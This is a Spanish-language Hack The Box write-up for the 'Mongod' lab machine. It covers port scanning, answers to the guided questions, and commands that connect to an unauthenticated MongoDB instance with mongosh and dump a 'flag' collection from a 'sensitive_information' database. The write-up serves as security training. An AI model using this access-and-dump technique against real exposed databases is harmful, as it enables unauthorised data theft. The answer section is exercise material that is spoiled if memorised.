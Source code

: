 ```yaml
---
title: Writeup mongod - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - mongod
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina mongod en Hack The Box.
keywords:
  - writeup mongod
  - hack the box mongod
  - resolución máquina mongod
  - mongod hack the box
  - htb mongod
---
```

-------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+0/Linux/Mongod)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=s_uui7kxJ3c)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=6zROgx0sKrY)

---

#easy #linux #ping #nmap #mongodb

----
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en la máquina?
	2

2)¿Qué servicio se ejecuta en el puerto 27017 del host remoto?
	MongoDB 3.6.8

3)¿Qué tipo de base de datos es MongoDB? (Elija: SQL o NoSQL)
	NoSQL

4)¿Cuál es el nombre del comando para el shell de Mongo que se instala con el paquete mongodb-clients?
	mongosh

5)¿Cuál es el comando utilizado para listar todas las bases de datos presentes en el servidor MongoDB? (No es necesario incluir un ; al final)
	show dbs

6)¿Cuál es el comando utilizado para listar las colecciones de una base de datos? (No es necesario incluir un ; al final)
	show collections

7)¿Cuál es el comando utilizado para volcar el contenido de todos los documentos de la colección denominada flag en un formato fácil de leer?
	db.flag.find()

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

![[Mongod1.png]]

![[Mongod2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22`[[ssh]]
	`27017` [[mongodb]]

-----
# Intrusion por [[mongodb]]

Descargamos el binario con [[curl]] para ejecutar [[mongodb]] por que no esta en la maquina. Despues con [[tar]] lo vamos a descomprimir, con [[cd]] entramos en la carpeta. Y con el comando final ejecutamos el binario entrando a la base de datos
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
./mongosh mongodb://10.129.228.30:27017
```


![[Mongod3.png]]

Ya estamos adentro asi que vamos a listar las bases de datos con `show dbs` Luego entramos a la base de datos *sensitive_information* con el comando `use sensitive_information`. Ahora con `show colections` vamos a listar las tablas. Y finalmente dumpeamos los datos de la tabla *flag* con `db.flag.find()`

![[Mongod4.png]]

----------
# Notas
Una base de datos es sql, cuando tiene el modelo tradicional de bases de datos que son tablas,columnas,filas,etc. Y cuando no tiene esto es una base de datos NOSQL

-------
# Creditos
Writeup Oficial HackTheBox
